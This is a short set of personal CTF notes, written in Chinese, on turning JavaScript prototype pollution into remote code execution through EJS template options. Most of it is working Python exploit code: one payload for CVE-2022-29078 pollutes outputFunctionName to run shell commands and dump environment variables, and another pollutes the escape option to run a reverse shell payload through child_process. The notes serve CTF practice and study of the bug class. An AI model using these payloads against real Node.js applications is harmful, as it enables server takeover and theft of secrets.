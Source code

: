 tags:: CTFWEB/JS/原型链污染, CTFWEB/NodeJS/EJS, CTFWEB/NodeJS

- > 原型链污染+EJS=RCE
- # 原理
	- ejs在编译模板时会将选项中的某些项直接拼接到编译结果中执行，而选项是存储在一个对象中的，我们只需要污染这些属性即可
	- 即使没有原型链污染也可以在express中的`res.render('xxx', {options...})`处直接传入这些选项进行RCE
- # outputFunctionName
	- CVE-2022-29078
	- ```python
	  r = base_post(url, headers = headers, json = {
	      "__proto__": {
	          "outputFunctionName": "a=1;return global.process.mainModule.constructor._load('child_process').execSync('bash -c \"sleep 3; env\"');//"
	      }
	  })
	  print(r.text)
	  ```
- # escape
	- 参考：
		- 我是在做[这题](((654dda41-c3ee-4d76-b945-69080bd6539a)))的时候挖出来的。。。
		- [别人的文章](https://www.inhann.top/2023/03/26/ejs/)
	- 原理和`outputFunctionName`是一样的，payload都会被拼接到编译产物中
	- 貌似也可以用`escapeFunction`?
	- 让client为真，并传入payload即可
		- ```python
		  ejs_escape = """\
		  function escapeXMLToString114() {
		    return Function.prototype.toString.call(this) + ';\\n' + escapeFuncStr;
		  }
		  console.log('114514ejs');
		  process.mainModule.require('child_process').execSync(CMD);
		  \
		  """.replace("CMD", repr(reverse_shell_payload))
		  r = base_post(
		      url + "/create",
		      json={ # 这里的对象需要被传入到proto中
		          "name": "global",
		          "settings": {
		              "view options": {
		                  "client": "1",
		                  "escape": ejs_escape,
		              }
		          }
		      },
		  )
		  print(r.text)
		  ```
- # 其他
	- [参考](https://xz.aliyun.com/t/13544)
-